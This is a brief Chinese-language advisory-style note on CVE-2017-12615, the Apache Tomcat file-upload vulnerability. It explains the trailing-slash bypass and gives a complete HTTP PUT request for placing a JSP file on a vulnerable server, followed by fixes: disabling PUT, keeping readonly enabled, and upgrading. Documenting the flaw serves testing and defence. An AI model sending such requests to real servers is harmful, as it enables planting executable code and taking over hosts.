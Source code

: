 ### 0x00 简述

漏洞名称：Tomcat任意文件上传漏洞

漏洞编号：CVE-2017-12615

漏洞影响：上传包含任意代码的文件，并被服务器执行。

影响平台：Windows

影响版本：Apache Tomcat 7.0.0 - 7.0.81

### 0x01 利用

在 Windows 服务器下， 默认 readonly 为 true，当 readonly 设置为 false 时，可以通过 PUT / DELETE 进行文件操控，并可以执行任意代码。直接使用 PUT上传文件时却发现会报404：
![1583229295580](./images/1583229295580.png)

这是因为在默认配置中，当后缀名为 .jsp 和 .jspx 的时候，是通过 JspServlet 处理请求的，要上传文件就得绕过，所以需要在文件末尾加上 `/` 进行绕过(windows下可以使用`%20`)

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

### 0x02 修复

- 禁用`PUT`
- `readonly` 设为 `true`
- 升级

### 0x03 参考链接

 https://paper.seebug.org/398 